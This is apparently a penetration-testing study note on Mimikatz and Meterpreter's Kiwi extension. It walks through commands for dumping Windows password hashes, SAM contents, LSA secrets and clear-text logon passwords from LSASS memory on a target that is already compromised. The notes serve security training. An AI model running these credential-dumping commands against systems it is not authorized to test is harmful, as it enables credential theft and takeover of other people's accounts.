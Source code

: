 # Mimikatz
> Mimikatz is pretty much "THE" tool to use in Windows post-exploitation: Password/Hash extraction from memory.

- **IMPORTANT:** Mimikatz will required elevated privileges in order to run correctly.
- LSASS is a system process and so runs with system/admin privileges.

## Resources: 
- Internal All the Things: [Mimikatz](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/mimikatz-cheatsheet/)

## Contents
- [Intro](#intro)
  - [Mimikatz & Kiwi](#mimikatz--kiwi)
  - [Why are hashes important?](#why-are-hashes-important)
- [Techniques & Tools](#techniques--tools)
  - [Scenario & Set-Up](#scenario--set-up)
  - [Meterpreter Built-In Extension: Kiwi](#meterpreter-built-in-extension-kiwi)
  - [Mimikatz on the Target](#mimikatz-on-the-target)
    - [Upload mimikatz.exe](#upload-mimikatzexe)
    - [Run mimikatz.exe on the Target](#run-mimikatzexe-on-the-target)

## Intro

### [Mimikatz & Kiwi](https://github.com/gentilkiwi/mimikatz#mimikatz)
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes, and Kerberos tickets from memory.
- The SAM (Security Account Manager) database is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
  - `LSA` : Local Security Authority
  - `LSASS` : Local Security Authority Subsystem Service
- We can utilize the pre-compiled mimikatz executable.
  - This means you have to upload the executable to the target machine and run it from there.
- Or if we have access to a meterpreter session on a Windows target, we can utilize the built-in meterpreter extenstion called Kiwi.
  - With Kiwi we don't have to upload files to the target machine.
  - We just run it from metasploit (no footprint on the target hdd).
- Resources: [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki) | [MetaSploit Docs](https://www.offsec.com/metasploit-unleashed/mimikatz/)

### Why are hashes important?
- You may not be able to crack them and get the plain-text passwords.
- You can use them in [pass-the-hash](/07_Post-Exploitation/6_Dump_n_Crack/win_dump_n_crack.md#pass-the-hash) attacks.

----
## Techniques & Tools

### Scenario & Set-Up
- You compromised a Windows target with MetaSploit and have a meterpreter session.
- Do some basic initial enumeration:
```
> sysinfo
> pgrep lsass
  # Note the pid
> migrate [lsass process number]
  # Since we are going to be interacting with the LSASS process, migrate to that specific process
  # This gives us a 64-bit meterpreter session on the target 64-bit architecture (more stable)
  # This gives us more stability when interacting with the LSASS process to dump hashes.
> getuid
  # if we have access as Administrator, no privesc needed
> getprivs
  # confirm we have admin privs
```

### Meterpreter Built-In Extension: Kiwi
> Assuming the same scenario: you have compromised a Windows target with MetaSploit and currently have access via a meterpreter session. Because we are dinkin' around with the LSA, we should migrate our meterpreter session to lsass.exe. That will be more stable.
- Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk (uploading mimiktaz.exe to the target will save it to the hard drive).
```
> load kiwi
> help              # at the bottom of the help file you will get the kiwi module help
> creds_all         # retrieve all credentials
> lsa_dump_sam      # dump the sam database contents
> lsa_dump_secrets  # dump the lsa secrets (unparsed)
```
- This will give you basically the same results as `hashdump` above (copy into a text file: hashes.txt).
- `load kiwi` : Should get visible feedback of successful load
- `creds_all` : will try to get everything; might give you the NTLM has of the administrator account
- `lsa_dump_sam` : This dumps the cached contents of the SAM db
  - REMEMBER: The SAM db is encrypted with a "syskey" and mimikatz/kiwi just gave you that key with this dump.
- `lsa_dump_secrets` : In SOME cases this MIGHT provide you with clear text credentials.
- If you are working within an AD (Active Directory) environment, you can run the kerberos dumps and/or create a golden ticket.
- Handy Kiwil command: `password_change`
  - This is NOT something you'd want to do in an enterprise environment pentest (b/c you'll change an actual account password and/or hash).

### Mimikatz on the Target
> Same scenario... If you wanted, you could upload the mimikatz Windows executable to the target (onto the target's hard drive).

#### Upload mimikatz.exe
- With your meterpreter session, navigate to the root of the target, create a Temp subdir for your files.
```
> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
  # Kali comes with various Windows executables, and mimikatz.exe is one of them.
> shell
  # gets you a cmd on the target
```

#### Run mimikatz.exe on the Target
- In the cmd shell on the target...
```
dir                       # should see mimikatz.exe in your Temp dir
mimikatz.exe              # start it up... you get the mikikatz environment and prompt
privilege::debug          # check your privs
                          # if you get "Privilege | 20 | OK" you have sufficient privs to execute
lsadump::sam              # should give you the cache dump: syskey, samkey, hashes
lsadump::secrets          # same results as with kiwi in msf
sekurlsa::logonpasswords  # IF there are clear-text pwds, you'll see them; else Password: (null).
```
- `sekurlsa::logonpasswords` : Some Windows systems are configured to store users' logon passwords in clear text. Mimikatz can find these.




